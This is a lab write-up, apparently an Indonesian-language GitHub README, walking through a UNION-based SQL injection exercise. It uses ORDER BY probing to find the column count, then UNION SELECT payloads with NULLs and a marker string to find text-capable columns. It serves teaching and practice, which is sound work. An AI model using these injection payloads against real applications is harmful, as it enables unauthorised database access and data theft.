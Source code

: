 # SQL Injection Lab – UNION-based Injection

## Lab Description

![image](https://user-images.githubusercontent.com/67383098/234052779-081854cf-469c-41be-b3fa-df4097769882.png)

---

## Solution

### 1. Query Dasar

Query awal yang digunakan aplikasi adalah:

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

### 2. Menentukan Jumlah Kolom

Dengan menambahkan `ORDER BY 4`, muncul error.
Artinya, query hanya memiliki **3 kolom** yang diretriev dari tabel.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 4 --
```

![image](https://user-images.githubusercontent.com/67383098/234053894-e8d616b7-87bc-4dc0-92b7-fa1af1ea43fe.png)

---

### 3. Menentukan Kolom yang Mendukung Data Teks

Untuk melanjutkan eksploitasi dengan **UNION SELECT**, jumlah kolom harus sama, yaitu 3.
Maka digunakan payload dengan 3 nilai `NULL`:

```sql
... UNION SELECT NULL,NULL,NULL --
```

Selanjutnya, kita uji dengan menyisipkan string unik (`33eWHU`) pada tiap posisi untuk mengetahui kolom mana yang dapat menampilkan data teks.

#### a. Uji String pada Kolom Pertama

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' 
UNION SELECT '33eWHU',NULL,NULL --
```

![image](https://user-images.githubusercontent.com/67383098/234055682-cf669cee-400a-466a-8892-7a64b10ee3a3.png)

#### b. Uji String pada Kolom Kedua

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' 
UNION SELECT NULL,'33eWHU',NULL --
```

![image](https://user-images.githubusercontent.com/67383098/234055016-49ef404e-457f-4e51-b9bf-b72e2b73872a.png)

![image](https://user-images.githubusercontent.com/67383098/234056709-ac749d4f-ac32-4df6-be18-4242a659d782.png)

![image](https://user-images.githubusercontent.com/67383098/234056775-01164b40-3359-4444-bdf8-4beb71aae69a.png)

---

### Kesimpulan

* Terdapat **3 kolom** dalam query.
* Dari uji coba dengan string `33eWHU`, kolom tertentu dapat menampilkan data teks.
* Informasi ini bisa digunakan untuk melanjutkan eksploitasi SQL Injection dengan UNION SELECT, misalnya untuk membaca nama tabel atau data sensitif lainnya.

